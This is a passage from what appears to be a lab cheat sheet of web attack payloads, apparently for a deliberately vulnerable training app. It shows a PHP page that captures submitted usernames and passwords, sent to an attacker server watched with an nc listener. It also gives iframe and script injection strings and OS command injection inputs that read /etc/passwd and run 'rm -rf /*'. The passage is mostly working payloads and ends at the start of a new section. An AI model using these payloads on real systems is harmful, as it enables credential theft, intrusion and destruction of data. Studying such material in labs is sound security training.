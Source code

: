 and make sure to create hacker_login_form.php file wich will include the following code just for showing the credentails.

```
if(isset($_POST['username'])){
    var_dump($_POST['username'])
    var_dump($_POST['password'])
}
```
and to start the php server at http://127.0.0.1:8888 execute the following commond in the that folder (where you created that php file)
```
php -S 127.0.0.1:8888
```
once some one submits that login form the POST request will be send to the attacker server

Attacker's machine:

```
nc -l 80
```

### 💀  iFrame Injection 💀
execute javascript by appending at in the uri
```
1. " onload="alert('hacked')
```
show prompt alert
```
2. "></iframe><script>prompt("Hi, why you are hacking this!");</script>
```

### 💀  OS Command Injection 💀
url: /
append more than one commands . at executes nslookup command on the given DNS so we can append more command and take advantage of.
```
www.nsa.gov; cat /etc/passwd
```
```
www.nsa.gov & cat /etc/passwd
```
```
www.nsa.gov | cat /etc/passwd
```
```
www.nsa.gov | mkdir GameOver
```
⛔ execute this command at your own risk ⛔
```
www.nsa.gov && rm -rf /*
```

### 💀  OS Command Injection - Blind 💀
url: /commandi_blind.php
